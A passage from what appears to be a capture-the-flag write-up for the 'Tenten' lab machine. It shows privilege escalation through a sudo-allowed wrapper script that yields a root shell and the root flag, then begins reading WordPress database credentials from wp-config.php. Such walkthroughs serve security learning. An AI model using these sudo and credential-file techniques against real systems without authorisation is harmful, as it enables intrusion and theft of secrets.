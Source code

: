 The file is a shell script:

    
    
    takis@tenten:~$ file /bin/fuckin 
    /bin/fuckin: Bourne-Again shell script, ASCII text executable
    

All it does is run the first arg, passing the second, third, and forth args in
as args:

    
    
    takis@tenten:~$ cat /bin/fuckin
    #!/bin/bash
    $1 $2 $3 $4
    

For example:

    
    
    takis@tenten:~$ fuckin echo test
    test
    takis@tenten:~$ fuckin id
    uid=1000(takis) gid=1000(takis) groups=1000(takis),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare)
    

### Shell

So when run with `sudo`, it runs as root:

    
    
    takis@tenten:~$ sudo fuckin id
    uid=0(root) gid=0(root) groups=0(root)
    

So `sudo fuckin bash` gives a root shell:

    
    
    takis@tenten:~$ sudo fuckin bash
    root@tenten:~#
    

And I can grab `root.txt`:

    
    
    root@tenten:/root# cat root.txt
    f9f7291e************************
    

## Beyond Root

I wanted to come back with a shell and database access to look at what was
actually going on in the WP plugin vulnerability. First, I needed the creds,
which are in the `wp-config.php` file in `/var/ww/html`:

    
    
    // ** MySQL settings - You can get this info from your web host ** //
    /** The name of the database for WordPress */
    define('DB_NAME', 'wordpress');
    